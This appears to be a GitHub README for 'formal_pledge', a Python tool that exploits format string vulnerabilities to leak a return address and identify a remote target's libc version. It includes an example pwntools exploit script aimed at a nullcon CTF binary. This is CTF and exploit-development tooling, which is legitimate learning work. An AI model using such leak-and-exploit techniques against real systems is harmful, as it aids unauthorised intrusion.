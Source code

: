 # formal_pledge

Have a format string vulnerability? Need the remote LIBC version? Fret not! **formal_pledge** looks for the __libc_start_main return from main, and checks its address against an offset database it builds using [libc-database](https://github.com/niklasb/libc-database) and pwntools [libc_start_main_return](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libc_start_main_return).

# Install
```bash
git clone https://github.com/k4lizen/formal_pledge.git
cd formal_pledge
python setup.py bdist_wheel
pip install dist/*
```
If you have multiple files in `dist/` install the latest version.

Then edit the `libc_database_location.py` file **in the installation directory** to set the [libc-database](https://github.com/niklasb/libc-database) location. The installation directory will be printed after trying to run the library with an invalid path in `libc_database_location.py`.

# Usage
```python
import formal_pledge
# ...
formal_pledge.getlibc.run(exec_function, binary_elf)
```
`exec_function` is a function which takes the payload as the only parameter and returns the string the program returns, along with the process. `formal_pledge` will take care of closing the process.

On the first run, the `offsets.txt` file will be generated in the **installation directory**, this step is skipped in subsequent runs.

## Example
Can also be seen/run in the `example` directory.
```python
from pwn import *
import formal_pledge

def start():
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    return process([exe])

def get_libc_send_payload(payload):
    p = start()
    p.recvuntil(b'>> ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    return resp, p

# binary from https://ctf.nullcon.net/challenges
exe = './junior_formatter'
elff = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']

# python exploit.py REMOTE 52.59.124.14 5031
# python exploit.py 
formal_pledge.getlibc.run(get_libc_send_payload, elff)